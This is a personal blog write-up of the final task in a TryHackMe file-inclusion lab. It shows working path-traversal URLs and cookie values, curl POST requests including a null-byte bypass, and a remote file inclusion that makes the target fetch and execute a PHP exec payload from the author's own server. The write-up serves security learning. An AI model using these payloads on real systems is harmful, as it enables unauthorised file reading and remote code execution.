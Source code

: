 ```yaml
---
title: "THM: File Inclusion Writeup"

date: 2022-02-20 16:26

# Created: February 20, 2022 4:26 PM
# last-updated: February 20, 2022 10:42 PM
tags: 
- Cybersecurity
- File Inclusion
- THM

layout: post
headerImage: false
category: blog
---
```


## Hi there !

I was doing the [File Inclusion](https://tryhackme.com/room/fileinc) room on TryHackMe. Most of the tasks, you can follow the instructions; however, I found the last one is challenging, so I thought of do the write-up on the last task—Task 8, giving some my thought process. Let's get started!

## Task 8:

1. Capture Flag1 at `/etc/flag1`
    
    If you try to get the file from the input, nothing is responding back. You can also try on the URL `[http://MACHINE_IP/challenges/chall1.php?file=../../../../etc/flag1](http://MACHINE_IP/challenges/chall1.php?file=../../../../etc/flag1)` , there is nothing responded. Well, if you look at the `Network` tab on the Firefox and see that it's calling with `GET` method. As the hint suggests: try using `POST` method. Alright, in my case, I'm using the `curl` on command line:
    
    ```bash
    $: curl http://MACHINE_IP/challenges/chall1.php -X POST -d "file=/etc/flag1"
    ```
    
    Hooray, the flag has been revealed!
    
2. Capture Flag2 at `/etc/flag2`
    
    Let's go to `[http://MACHINE_IP/challenges/chall2.php](http://MACHINE_IP/challenges/chall2.php)` You will see as the attached below:
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled.png)
    
    There is no input form, hmm, try adding the parameter to the URL 🤔 Let's try, `[http://MACHINE_IP/challenges/chall2.php?file=../../../../etc/flag2](http://MACHINE_IP/challenges/chall2.php?file=../../../../etc/flag2)` Nothing happens.
    
    Let's look at the `Development tool`, something interesting might be there. Look at the `Network` tab, the request is calling with `GET`; what if it's a `POST` , I try `curl` as the previous exercise, but still nothing happens. Hmm, the hint says that **"Checks the cookie"**, alright, it shows `THM=Guest` , let's try changing to `THM=admin` (you can change the cookie on `Storage` tab), then refresh the page... Oo-oh, something's changed!
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%201.png)
    
    It has been revealed that there's the vulnerability on `cookie`, let's try changing to `/etc/flag2` There is some sort of input validation for `include()` function there, see below.
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%202.png)
    
    Fine, let's do the path traversal: `THM=../../../../etc/flag2` And we got it! I'm not gonna show the flag 🤭
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%203.png)
    
3. Capture Flag3 at `/etc/flag3`
    
    Let's go to the challenge 3 page. There is an input, so try getting `../../../../etc/flag3`
    
    ![Untitled](/assets/posts/2022-02-20-THM-File-Inclusion-Writeup/Untitled%204.png)
    
    Seems like it sanitizes the input and adds `.php` to the file name, smart! But, what if we request it using `curl` with `POST` Let's try.
    
    ```bash
    $: curl http://MACHINE_IP/challenges/chall3.php -X POST -d "file=/etc/flag3%00"
    ```
    
    You will get a warning that the output can mess your terminal, so don't forget to pass the output into a file! and let's look at your output file! 😎
    
4. Gain RCE in **Lab #Playground** `/playground.php` with RFI to execute the `hostname` command. What is the output?
    
    Follow the `Task 6: Remote File Inclusion - RFI` lab, but instead of `<?PHP echo "Hello THM"; ?>` , you will do
    
    ```php
    <?PHP print exec('hostname'); ?>
    ```
    
    Before calling our `cmd.txt` , don't forget to launch the local server. You can use `http.server` in Python3:
    
    ```python
    $: python3 -m http.server 8080
    ```
    
    In my case, I'm using port 8080; when I call via the url, it will be `[http://MACHINE_IP/playground.php?file=http://LOCAL_IP:8080/cmd.txt](http://MACHINE_IP/playground.php?file=http://LOCAL_IP:8080/cmd.txt)` There we go! The flag is on the screen.
    

We’re done 🎉